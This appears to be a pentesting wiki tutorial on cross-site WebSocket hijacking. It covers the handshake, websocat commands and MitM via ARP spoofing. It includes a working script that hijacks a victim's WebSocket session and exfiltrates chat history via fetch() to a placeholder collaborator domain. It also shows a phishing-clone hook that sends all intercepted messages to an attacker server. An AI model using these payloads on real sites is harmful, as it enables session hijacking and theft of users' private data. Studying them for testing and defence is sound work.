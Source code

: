 # Cross-site WebSocket hijacking (CSWSH)

## What are WebSockets

WebSocket connections are initiated over **HTTP** and are typically **long-lived**. Messages can be sent in **either direction at any time** and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.\
WebSockets are particularly useful in situations where **low-latency or server-initiated messages** are required, such as real-time feeds of financial data.

## How are WebSocket connections established?

(Here you will find a summary but a **more detailed guide about how a web socket connection** is created can be found [**here**](https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc)).\
WebSocket connections are normally created using client-side JavaScript like the following:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

The **`wss`** protocol establishes a WebSocket over an encrypted **TLS** connection, while the **`ws`** protocol uses an **unencrypted** connection.

To establish the connection, the browser and server perform a WebSocket handshake over HTTP. The browser issues a WebSocket handshake request like the following:

```javascript
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```javascript
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

At this point, the network connection remains open and can be used to send WebSocket messages in either direction.

**Note**

Several **features** of the WebSocket **handshake** messages are worth noting:

* The **`Connection`** and **`Upgrade`** headers in the request and response **indicate** that this is a **WebSocket handshake**.
* The **`Sec-WebSocket-Version`** request header specifies the **WebSocket protocol version** that the client wishes to use. This is typically `13`.
* The **`Sec-WebSocket-Key`** request header contains a Base64-encoded **random value**, which should be randomly generated in each handshake request.
* The **`Sec-WebSocket-Accept`** response header contains a hash of the value submitted in the `Sec-WebSocket-Key` request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

The **`Sec-WebSocket-Key`** header contains a **random value** to prevent errors from caching proxies, and **is not used for authentication or session handling purposes** (_It's not a CSRF token_).

### Linux console

You can use `websocat` to stablish a raw connection with a websocket.

```bash
websocat --insecure wss://10.10.10.10:8000 -v
```

Or to create a websocat server:

```bash
websocat -s 0.0.0.0:8000 #Listen in port 8000
```

## MitM websocket connections

If you find that clients are connection to a **HTTP websocket** from your current local network you could try an [ARP Spoofing Attack ](../pentesting/pentesting-network/#arp-spoofing) to perform a MitM attack between the client and the server.\
Once the client is trying to connect to you you can use:

```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```

## Websockets Enumeration

You can use the **tool** [**https://github.com/PalindromeLabs/STEWS**](https://github.com/PalindromeLabs/STEWS) **to discover, fingerprint and search for known** **vulnerabilities** in websockets automatically.

## Cross-site WebSocket hijacking (CSWSH)

Also known as _cross-origin WebSocket hijacking_.\
**It is a** [**Cross-Site Request Forgery (CSRF)**](csrf-cross-site-request-forgery.md) **on a WebSocket handshake.**

It arises when the **WebSocket handshake** request relies solely on **HTTP cookies** for session handling and does **not contain any CSRF tokens** or other unpredictable values.\
An attacker can create a **malicious web page** on their own domain which **establishes a cross-site WebSocket** connection to the vulnerable application. The application will handle the connection in the **context of the victim user's session** with the application.

### Simple Attack

Note that when **establishing** a **websocket** connection the **cookie** is **sent** to the server. The **server** might be using it to **relate** each **specific** **user** with his **websocket** **session based on the sent cookie**.

Then, if for **example** the **websocket** **server** **sends back the history of the conversation** of a user if a msg with "**READY"** is sent, then a **simple XSS** establishing the connection (the **cookie** will be **sent** **automatically** to authorise the victim user) **sending** "**READY**" will be able to **retrieve** the history of the **conversation**.:

```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```

### Stealing data from user

Copy the web application you want to impersonate (the .html files for example) and inside the script where the websocket communication is occurring add this code:

```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "client_msg?m="+data, true);
    xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
    xhttp.send();
    return messageEvent;
}
```

Now download the `wsHook.js` file from [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) and **save it inside the folder with the web files**.\
Exposing the web application and making a user connect to it you will be able to steal the sent and received messages via websocket:

```javascript
sudo python3 -m http.server 80
```

## Other vulnerabilities

As Web Sockets are a mechanism to **send data to server side and client side**, depending on how the server and client handles the information, **Web Sockets can be used to exploit several other vulnerabilities like XSS, SQLi or any other common web vuln using input of s user from a websocket.**

## References

{% embed url="https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages" %}



\
